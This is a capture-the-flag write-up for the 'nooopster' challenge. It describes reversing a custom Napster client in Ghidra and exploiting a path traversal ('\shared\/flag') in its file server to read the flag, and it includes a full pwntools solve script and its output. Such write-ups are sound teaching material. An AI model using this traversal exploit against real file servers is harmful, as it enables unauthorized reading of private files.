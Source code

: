 # nooopster

**Category**: Pwn, Rev \
**Points**: 115 (74 solves)

## Challenge

I don't remember the exact description, but it was something like "Let's share
files like it's 1999".

Attachments:
- `nooopster.vpn`
- `openvpn.shared.key`

## Overview

We're given an OpenVPN config and key:
```
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 9
```

Using OpenVPN 2 we can connect like so
```
openvpn --config nooopster.ovpn
```

Based on the OpenVPN config we know the server is up at `192.168.5.1`. Though
using automated scanners are against the CTF rules, I didn't know what else to
do so I just ran nmap on it:
```
PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

After wasting an hour trying to figure out how to connect, I eventually asked
the challenge author what the intended service was. Turns out it's
[Napster](https://en.wikipedia.org/wiki/Napster) (haha because the challenge is
called nooopster, duh), which is some music sharing service popular in 1999.

Luckily Ubuntu 16.04 still has a Napster client in the official repos:
```dockerfile
FROM ubuntu:16.04
RUN apt-get update && apt-get install nap
CMD /bin/bash
```

Then we can connect like so:
```
nap -s 192.168.5.1:8888
/join #chat
```

![c.png](c.png)

Ok, let's check out his files
```
/browse nooopster
```

![f.png](f.png)

We see about 200 MP3 files (all of them are Rickrolls) and one file called
`nooopster`, which is an ELF binary.

After opening it in Ghidra, we can see that it's a custom Napster client that
the `nooopster` bot is presumably using. Our goal is to pwn the client.

## Solution

The `nooopster` client has all mitigations enabled so getting RCE probably
isn't the intended solution since the challenge is categorized as "easy". Since
the client has some file sharing functionality, the goal is probably to get
arbitrary file read.

Here's what I found after reversing it in Ghidra:
- It connects to port 8888 of the IP supplied in `argv[1]`
- It checks if the nickname `nooopster` has been taken on the server
- If not, it does `pthread_create` to host a file server on port 7070 in the
  background
- It lists the files in `./shared` and sends the filenames to the Napster server
- Then it polls the Napster connection with a timeout of 10 seconds,
  repeating the same four messages over and over again
- It also checks for download requests and responds appropriately according to
  the [Napster spec](http://opennap.sourceforge.net/napster.txt)

There were only two places where files were read:
1. The file server running on port 7070
2. A weird `fopen` call in `main`. After playing around for a while, it seemed
   like the `fopen` was unreachable, so I don't know what it was even there for.

Since I suck at static analysis, I switched to GDB after I realized that if I
changed the nickname the client used, I could run it without any issues.

Turns out the bug was in this `parse_filepath()` function (the binary was
stripped so this is just the name I gave to the function). The filepath needs
to start with `\shared\blah` and `parse_filepath()` just returns `blah`.
However it doesn't check for any funny business so we can just do
`\shared\/flag` and it will return `/flag`.

Here's a short clip showing how this `parse_filepath()` function can be found
in Ghidra: [ghidra.mp4](ghidra.mp4)

Solve script:
```python
import pwn
import time
from enum import IntEnum


def send(msg: bytes, type: int):
    p = pwn.p16(len(msg)) + pwn.p16(type) + msg
    io.send(p)
    res = io.clean(timeout=0.5)
    print(f"[*] Response: {res}")


class Type(IntEnum):
    LOGIN = 2
    JOIN_CHANNEL = 0x190
    PUBLIC_MSG = 0x192
    DOWNLOAD_REQUEST = 0xCB


# We need to request a download before the file server on port 7070 will let us
# download anything
io = pwn.remote("192.168.5.1", 8888)
send(b'qxxxb wmtidxal 0 "nap v1.5.4" 4', Type.LOGIN)
send(b"#chat", Type.JOIN_CHANNEL)
send(b"#chat hello", Type.PUBLIC_MSG)
send(r'nooopster "\shared\nooopster"'.encode(), Type.DOWNLOAD_REQUEST)

io = pwn.remote("192.168.5.1", 7070)
io.send(r'GETqxxxb "\shared\/flag" 0')
io.interactive()
```

Output:
```
$ python3 solve.py
[+] Opening connection to 192.168.5.1 on port 8888: Done
[*] Response: b'\x0b\x00\x03\x00anon@(none)\x14\x00m\x02VERSION opennap 0.44\r\x00m\x02SERVER (none)-\x00m\x02There have been 2 connections to this server.\x07\x00\xd6\x001 202 0'
[*] Response: b'\x05\x00\x95\x01#chat\x0f\x00\x98\x01#chat qxxxb 0 4\x15\x00\x98\x01#chat nooopster 202 0\x05\x00\x99\x01#chat#\x00\x9a\x01#chat Welcome to the #chat channel.'
[*] Response: b'\x11\x00\x93\x01#chat qxxxb hello'
[*] Response: b'N\x00\xcc\x00nooopster 17148096 7070 "\\shared\\nooopster" 00000000000000000000000000000000 0'
[+] Opening connection to 192.168.5.1 on port 7070: Done
[*] Switching to interactive mode
123OOO{M4573R_0F_PUPP375}
```

## Timeline

- `Saturday 03:00 PM - 04:00 PM`
  - Start challenge
  - Waste time with different OpenVPN versions to get the VPN work
  - Finally realize OpenVPN 2 from the Ubuntu repos works just fine
- `Saturday 04:00 PM - 05:00 PM`
  - Scan ports on server, find 7070 and 8888 and 8889
  - Try MLDonkey on port 7070 because that's what nmap tells me it is
  - Give up and ask challenge author what service it is. Turns out it's Napster
    on port 8888
  - Get `nap` client from Ubuntu 16.04 repos and connect
  - Find about 200 songs (all Rickrolls) and one binary called `nooopster`
- `Saturday 05:00 PM - 08:45 PM`
  - Start reversing `nooopster` in Ghidra, not really understanding what was
    going on
  - Use WireShark on `nap` client. Manage to figure out some basics of the protocol
  - Realize that goal is probably to achieve arbitrary file read
  - Find two places where that's possible
- `Saturday 08:45 PM - 09:45 PM`
  - Dinner + break
- `Saturday 09:45 PM - 11:59 PM`
  - Find the client-server protocol [spec](http://opennap.sourceforge.net/napster.txt)
  - Finally am able to understand Ghidra's disassembly thanks to that
- `Sunday 12:00 AM - 02:00 AM`
  - Figure out that if I change the username used by the `nooopster` binary, I
    can run it and connect it to the server
  - Dynamic reversing in GDB
- `Sunday 02:00 AM`
  - Find bug on the file server on port 7070
  - Get the flag
